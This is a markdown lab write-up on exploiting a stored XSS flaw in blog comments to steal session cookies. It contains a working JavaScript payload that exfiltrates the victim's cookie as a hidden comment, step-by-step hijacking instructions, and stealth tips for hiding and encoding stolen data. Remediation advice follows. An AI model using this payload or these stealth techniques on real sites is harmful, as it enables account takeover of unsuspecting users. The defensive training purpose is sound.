

# Lab: Exploiting Stored XSS to Steal Cookies

## 1. Title & Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in a blog comment feature can be exploited to steal a victim’s session cookie and impersonate them.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* This allows **arbitrary JavaScript injection**.
* A visiting victim executes attacker-controlled code in their browser.

---

## 3. Proof of Concept (PoC)
```html
<script>
    window.addEventListener("DOMContentLoaded",function () {
        var form = document.querySelector('.add-comment form');

        var data = new FormData(form);
        var sessioncookie = document.cookie.split('; ').find(c=>c.startsWith('session='));

        data.append('comment',"<span style='display:none'>"+sessioncookie+"</span>");
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');

        fetch(form.action,{
            method:"POST",
            mode:"no-cors",
            body:data,
            credentials:"include"
        })
    })
</script>
```
**Screenshot**




---

## 4. Exploit Workflow

1. Attacker posts the payload as a comment.
2. Victim views the blog post.
3. Victim’s browser executes the attacker’s script.
4. Script exfiltrates the victim’s session cookie by posting it back as a hidden comment.
5. Attacker reads the victim’s cookie, imports it into their browser, and hijacks the session.

---

## 5. Stealth Considerations

* The PoC stores the cookie in a visible comment (loud).
* Stealthier options include:

  * Use `display:none` to hide the stolen data.
  * Exfiltrate via a benign-looking field (e.g., `website`).
  * Encode the cookie before sending (`btoa`).
  * In real attacks, exfiltrate data to an attacker-controlled server (blocked in this lab).

---

## 6. Impact

* Full account takeover via stolen session ID.
* CSRF protections are bypassed, as the CSRF token is accessible.
* Trust in the application is broken (stored XSS affects all future visitors).

---

## 7. Remediation

* **Contextual output encoding:** escape user input before rendering.
* **HttpOnly cookies:** prevent JavaScript access to sensitive cookies.
* **Content Security Policy (CSP):** restrict where scripts can execute.
* **Input validation & sanitization:** prevent injection of arbitrary scripts.

---

## 8. Reflection

This lab demonstrates how a seemingly simple XSS bug can escalate into full account takeover.
Adding `HttpOnly` to session cookies alone would have prevented cookie theft, but the root cause is **unsafe rendering of untrusted input**.
This highlights why secure coding practices and **defense-in-depth** are critical.
